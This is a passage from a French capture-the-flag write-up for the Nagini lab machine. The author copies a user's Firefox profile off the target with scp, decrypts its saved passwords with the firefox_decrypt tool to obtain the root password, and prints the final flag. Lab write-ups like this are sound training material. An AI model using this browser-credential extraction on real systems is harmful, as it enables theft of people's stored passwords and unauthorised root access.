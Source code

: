 On ne trouve pas plus d'indices classiques pouvant mener à de l'escalade de privilèges. En revanche l'utilisatrice a un dossier *.mozilla/firefox* ce qui est un peu étrange pour une machine qui n'a pas d'interface graphique...  

Je rapatrie le dossier via scp et je lance [firefox\_decrypt](https://github.com/Unode/firefox_decrypt) dessus :  

```plain
$ python3 firefox_decrypt.py firefox/
Traceback (most recent call last):
  File "firefox_decrypt.py", line 46, in <module>
    PWStore = list[dict[str, str]]
TypeError: 'type' object is not subscriptable
```

Un petit fix et une [pull request](https://github.com/unode/firefox_decrypt/pull/78/files) plus tard :

```plain
$ python3 firefox_decrypt.py firefox/

Website:   http://nagini.hogwarts
Username: 'root'
Password: '@Alohomora#123'
```

Ce qui permet l'accès root et la récupération du dernier horcrux :  

```plain
# cat horcrux3.txt 
  ____                            _         _       _   _                 
 / ___|___  _ __   __ _ _ __ __ _| |_ _   _| | __ _| |_(_) ___  _ __  ___ 
| |   / _ \| '_ \ / _` | '__/ _` | __| | | | |/ _` | __| |/ _ \| '_ \/ __|
| |__| (_) | | | | (_| | | | (_| | |_| |_| | | (_| | |_| | (_) | | | \__ \
 \____\___/|_| |_|\__, |_|  \__,_|\__|\__,_|_|\__,_|\__|_|\___/|_| |_|___/
                  |___/                                                   

Machine Author: Mansoor R (@time4ster)
Machine Difficulty: Medium
Machine Name: Nagini
Horcruxes Hidden in this VM: 3 horcruxes

You have successfully pwned Nagini machine.
Here is your third hocrux: horcrux_{NTogRGlhZGVtIG9mIFJhdmVuY2xhdyBkZXN0cm95ZWQgYnkgSGFycnk=}
```

Groovy !  


*Published November 28 2021 at 17 29*